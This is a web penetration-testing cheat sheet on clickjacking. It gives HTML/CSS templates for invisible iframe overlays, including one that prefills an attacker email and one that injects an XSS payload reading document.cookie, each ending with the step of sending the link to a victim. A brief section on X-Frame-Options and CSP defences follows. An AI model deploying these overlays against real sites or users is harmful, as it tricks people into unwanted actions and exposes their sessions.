 ```yaml
---
title: "Clickjacking"
subtitle: ""
draft: false
author: "Hato0"
description: "Clickjacking cheatsheet"
Last Update: <time datetime="{{ .Page.Lastmod.Format "Mon Jan 10 17:13:38 2020 -0700" }}" class="text-muted">  {{ $.Page.Lastmod.Format "January 02, 2006" }} </time>
tags: ["web", "penetest", "clickjacking", "phishing"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Clickjacking

Clickjacking is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website. 

Example (from imperva.com) : 
1.  The attacker creates an attractive page which promises to give the user a free trip to Tahiti.
2.  In the background the attacker checks if the user is logged into his banking site and if so, loads the screen that enables transfer of funds, using query parameters to insert the attacker’s bank details into the form.
3.  The bank transfer page is displayed in an invisible iframe above the free gift page, with the “Confirm Transfer” button exactly aligned over the “Receive Gift” button visible to the user.
4.  The user visits the page and clicks the “Book My Free Trip” button.
5.  In reality the user is clicking on the invisible iframe, and has clicked the “Confirm Transfer” button. Funds are transferred to the attacker.
6.  The user is redirected to a page with information about the free gift (not knowing what happened in the background).

![alt CJ example](https://lh3.googleusercontent.com/QsCvEJWxO4xG9x4pV8Cujs55AqqtPjADgSjlmu9WxI7C0brjrFXc_tlKft169KicxtePmgKnXa-ovKP3SwCNQrXzr4mwSaLEL_EI0I4dF85zPGV7cM3kVCqPcd-VIhyJ-whhkI0)

## Some examples

- Basic clickjacking with CSRF token protection

	1. Construct a page looking like : 
    {{< highlight html "lineNos=false" >}}
    <style>  
        iframe {  
        position:relative;  
        width:$width\_value;  
        height: $height\_value;  
        opacity: $opacity;  // Set opacity to make the button transparent
        z-index: 2;  
        }  
        div {  
        position:absolute;  
        top:$top\_value;  // Change this to fully cover the baiting action
        left:$side\_value;  // Change this to fully cover the baiting action
        z-index: 1;  
        }  
    </style>  
    <div>Test me</div>  
    <iframe src="$url"></iframe>
    {{< /highlight >}}
	
	2. Send the link to the victime and pray


- Clickjacking with form input data prefilled from a URL parameter

	1. Construct a page looking like : 
		{{< highlight html "lineNos=false" >}}
		<style>  
		   iframe {  
			   position:relative;  
			   width:$width_value;  
			   height: $height_value;  
			   opacity: $opacity;  
			   z-index: 2;  
		   }  
		   div {  
			   position:absolute;  
			   top:$top_value;  
			   left:$side_value;  
			   z-index: 1;  
		   }  
		</style>  
		<div>Test me</div>  
		<iframe src="$url?email=hacker@attacker-website.com"></iframe>
		{{< /highlight >}}

	2. Send the link to the victime and pray


- Exploiting clickjacking vulnerability to trigger DOM-based XSS

	1. Construct a page looking like:
	
	{{< highlight html "lineNos=false" >}}
	<style>  
	 iframe {  
	 position:relative;  
	 width:$width\_value;  
	 height: $height\_value;  
	 opacity: $opacity;  
	 z-index: 2;  
	 }  
	 div {  
	 position:absolute;  
	 top:$top\_value;  
	 left:$side\_value;  
	 z-index: 1;  
	 }  
	</style>  
	<div>Test me</div>  
	<iframe  
	src="$url?name=<img src=1 onerror=alert(document.cookie)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
	{{< /highlight >}}
	
	2. Send the link to the victime and pray
	
- Multistep clickjacking
    
    Just include as much button as you need
{{< highlight html "lineNos=false" >}}
<style>  
    iframe {  
    position:relative;  
    width:$width\_value;  
    height: $height\_value;  
    opacity: $opacity;  
    z-index: 2;  
    }  
    .firstClick, .secondClick {  
    position:absolute;  
    top:$top\_value1;  
    left:$side\_value1;  
    z-index: 1;  
    }  
    .secondClick {  
    top:$top\_value2;  
    left:$side\_value2;  
    }  
</style>  
<div class="firstClick">Test me first</div>  
<div class="secondClick">Test me next</div>  
<iframe src="$url"></iframe>
{{< /highlight >}}



## How to prevent them 

Two main option are in use to prevend them: 

- X-frame-options: 
    - deny : Make the site impossible to include into ifram balise
    - sameorigin: Make ifram only useable on the same website
    - allow-from: Specify URL that can include the website iframe 
- CSP: You can use a lot of CSP option to restrict page inclusion